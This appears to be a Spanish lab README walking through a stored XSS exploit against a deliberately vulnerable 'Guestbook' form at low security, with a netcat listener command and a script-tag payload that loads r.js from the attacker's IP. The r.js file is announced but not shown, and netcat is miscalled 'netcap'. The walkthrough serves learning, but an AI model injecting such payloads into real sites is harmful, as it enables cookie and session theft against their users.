

# Explotación de Redirección en Guestbook (Nivel Bajo)

Este README describe una explotación de seguridad de nivel bajo en un formulario de "Guestbook" vulnerable. La vulnerabilidad permite la inyección de código JavaScript malicioso a través del campo "Message".

## Pre-requisitos

* **Servidor Web Temporal:** Necesitas tener un servidor web simple en ejecución para servir el archivo JavaScript de redirección. Puedes iniciarlo con netcap:
    ```bash
    nc -lvnp 44
    ```

* **Archivo JavaScript (`r.js`):** Crea un archivo llamado `r.js` en el mismo directorio donde iniciarás el servidor web. Este archivo contendrá el código JavaScript con el payload:
    
## Pasos de Explotación

1.  **Acceder al Formulario:** Abre la página web que contiene el formulario del "Guestbook" con los campos "Name" y "Message".

2.  **Introducir Nombre:** En el campo "Name", introduce cualquier valor (máximo 10 caracteres, por ejemplo, "prueba").

3.  **Introducir Payload en el Mensaje:** En el campo "Message", introduce la etiqueta `<script>` para incluir el script desde tu servidor web temporal. Reemplaza `[tu_IP]` con la dirección IP de tu máquina donde está corriendo el servidor web. Si el servidor web está en la misma máquina, puedes usar `127.0.0.1` o `localhost`.

    ```html
    <script src=http://[tu_IP]/r.js></script>
    ```

    **Importante:** Verifica que la longitud del payload sea menor de 50 caracteres.

4.  **Enviar el Formulario:** Haz clic en el botón "Sign Guestbook".

5.  **Verificar Inclusión del Script:**
    * Haz clic derecho en la nueva entrada del guestbook que contiene tu "Message".
    * Selecciona "Inspeccionar elemento" (o similar).
    * Busca en el código fuente para confirmar que la etiqueta `<script>` se ha insertado correctamente.



## Impacto

Esta explotación demuestra una vulnerabilidad Cross-Site Scripting (XSS) de bajo nivel. Un atacante podría inyectar código JavaScript malicioso para:

* Redirigir usuarios a sitios web maliciosos.
* Robar información sensible (cookies, tokens de sesión, etc.).
* Realizar acciones en nombre del usuario autenticado.
* Mostrar contenido falso o engañoso.